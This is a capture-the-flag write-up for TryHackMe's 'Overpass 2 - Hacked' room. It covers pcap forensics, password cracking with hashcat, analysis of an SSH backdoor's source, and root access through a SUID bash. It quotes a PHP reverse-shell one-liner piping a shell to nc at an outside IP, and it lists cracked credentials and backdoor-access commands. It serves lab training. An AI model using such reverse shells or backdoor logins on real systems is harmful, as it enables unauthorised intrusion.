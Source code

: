 ```yaml
---
Platform: TryHackMe
Difficulty: Easy
Status: Rooted/Finished
Type: Machine
Title: Overpass 2 - Hacked
Category: 
tags: 
CreatedOn: 04-12-2023
---
```

# Overpass 2 - Hacked

In this writeup we are going to solve the Overpass 2 - Hacked room from TryHackMe.

Link to the Room : [https://tryhackme.com/room/overpass2hacked](https://tryhackme.com/room/overpass2hacked)

  

Lets Start……

  

## Task 1

First Download the Task files given. The given task file is a [PCAP](https://www.solarwinds.com/resources/it-glossary/pcap) file. Open the given pcap file in wireshark.

If we take a look at the traffic, we can see that there is a POST request to `/development/upload.php`.

![Untitled.png](Overpass%202%20-%20Hacked/assets/Untitled.png)

Right click on that particular row and follow the TCP stream to see more details about that POST request.

`Right Click → Follow → TCP Stream` ( or ) Select the column and press `ctrl + alt + shift + T` to view the TCP Stream.

![Untitled 1.png](Overpass%202%20-%20Hacked/assets/Untitled%201.png)

In the TCP stream we can see that the attacker have uploaded a file named `payload.php` which has the following PHP reverse shell code:

```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

Further investigating, If we follow the TCP stream of the packet no 29, we see the password that the attacker used for the user james: `whenevernoteartinstant`.

![Untitled 2.png](Overpass%202%20-%20Hacked/assets/Untitled%202.png)

![Untitled 3.png](Overpass%202%20-%20Hacked/assets/Untitled%203.png)

And if we scroll down, we can see that the attacker is downloading a ssh-backdoor from `[https://github.com/NinjaJc01/ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor)`

![Untitled 4.png](Overpass%202%20-%20Hacked/assets/Untitled%204.png)

We can also see that the attacker has also viewed the `/etc/shadow` file.

![Untitled 5.png](Overpass%202%20-%20Hacked/assets/Untitled%205.png)

I tried to crack these passwords with the [fasttrack.txt](https://raw.githubusercontent.com/drtychai/wordlists/master/fasttrack.txt) word-list. I used hashcat for cracking the passwords.

Command: `hashcat -m 1800` `**hash.txt**` `**./fasttrack.txt**`

I was able to crack the passwords for 4 users:

`paradox: secuirty3`

`szymex: abcd123`

`bee: secret12`

`muirland: 1qaz2wsx`

We have find the answers for all the questions that were asked for the Task 1.

![Untitled 6.png](Overpass%202%20-%20Hacked/assets/Untitled%206.png)

Moving on to Task 2

## Task 2

Now we have to analyse the code of the backdoor that we found in the last task. So first I downloaded the source code from [https://github.com/NinjaJc01/ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor), using the following command

`git clone https://github.com/NinjaJc01/ssh-backdoor.git`

![Untitled 7.png](Overpass%202%20-%20Hacked/assets/Untitled%207.png)

After downloading I opened the downloaded `ssh-backdoor` folder in VScode. If we take a look at the `main.go` file, we can see a variable `hash` with a value of `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3` which is the default hash used by this backdoor.

![Untitled 8.png](Overpass%202%20-%20Hacked/assets/Untitled%208.png)

From the main function we can devise that the backdoor is running on port `2222`.

![Untitled 9.png](Overpass%202%20-%20Hacked/assets/Untitled%209.png)

Further, if we scroll down, we can see that the backdoor requires a hash for creating backdoor as a parameter with a flag `-a` . If the hash is not given as a parameter then it uses the default hash value that we found above.

![Untitled 10.png](Overpass%202%20-%20Hacked/assets/Untitled%2010.png)

If we take a look at the TCP stream where we found the backdoor in the last task, we can see that the attacker has given a hash as parameter while he was executing the backdoor. The hash that the attacker used is: `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

![Untitled 11.png](Overpass%202%20-%20Hacked/assets/Untitled%2011.png)

On further investigating, if we take a look at the function `passwordHandler` , we can see that the backdoor uses a salt `1c362db832f3f864c8c2fe05f2002a05` to create the password.

![Untitled 12.png](Overpass%202%20-%20Hacked/assets/Untitled%2012.png)

Now we can crack the hash that the attacker given as a parameter to create the backdoor password using the salt to find the password.

The command to crack the password is :

`hashcat -m 1710 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05 /usr/share/wordlists/rockyou.txt --force -O -w 4`

![Untitled 13.png](Overpass%202%20-%20Hacked/assets/Untitled%2013.png)

We have cracked the hash and the password is `november16` .

We have find the answers for all the questions that were asked for the Task 2.

![Untitled 14.png](Overpass%202%20-%20Hacked/assets/Untitled%2014.png)

Moving on to Task 3.

## Task 3

First start the machine. Wait for 5 minutes and give the machine time to start all the services.

After 5 minutes, run a standard nmap scan.

Command: `nmap -A -T4 -v <targetIP>`

![Untitled 15.png](Overpass%202%20-%20Hacked/assets/Untitled%2015.png)

We can see that there is web-server running on port `80` and the backdoor is running on port `2222`.

If we check the web-server that is running on port `80`, we can see the message `**H4ck3d by CooctusClan**`. Apart from the message there is nothing interesting in the website.

![Untitled 16.png](Overpass%202%20-%20Hacked/assets/Untitled%2016.png)

Next we can use the backdoor to get access to the target machine.

Command: `ssh james@<target_IP> -p 2222 -oHostKeyAlgorithms=+ssh-rsa`

Use the password that we found in the last task: “november16”

![Untitled 17.png](Overpass%202%20-%20Hacked/assets/Untitled%2017.png)

Now we got access to the target machine. Now if we check the user directory we can find the user flag.

![Untitled 18.png](Overpass%202%20-%20Hacked/assets/Untitled%2018.png)

Now we have to find the root flag. According to the hint we have to check whether attacker had left a way to escalate our privileges. So I started to surf through all the directories.

![Untitled 19.png](Overpass%202%20-%20Hacked/assets/Untitled%2019.png)

In the home directory I found something interesting.

![Untitled 20.png](Overpass%202%20-%20Hacked/assets/Untitled%2020.png)

It has a `.suid_bash` file. I searched [gtfobins](https://gtfobins.github.io/) for “bash SUID” and found this [https://gtfobins.github.io/gtfobins/bash/#suid](https://gtfobins.github.io/gtfobins/bash/#suid).

![Untitled 21.png](Overpass%202%20-%20Hacked/assets/Untitled%2021.png)

According to the above explanation, if we execute this `.suid_bash` file with a flag `-p`, we will get back a shell with root privileges.

![Untitled 22.png](Overpass%202%20-%20Hacked/assets/Untitled%2022.png)

After executing the command: `./.suid_bash -p` , I got back a shell with root privileges.

Now I checked the `/root` directory.

![Untitled 23.png](Overpass%202%20-%20Hacked/assets/Untitled%2023.png)

We successfully got the root flag.

We have find the answers for all the questions that were asked for the Task 3.

![Untitled 24.png](Overpass%202%20-%20Hacked/assets/Untitled%2024.png)

  

Thankyou………….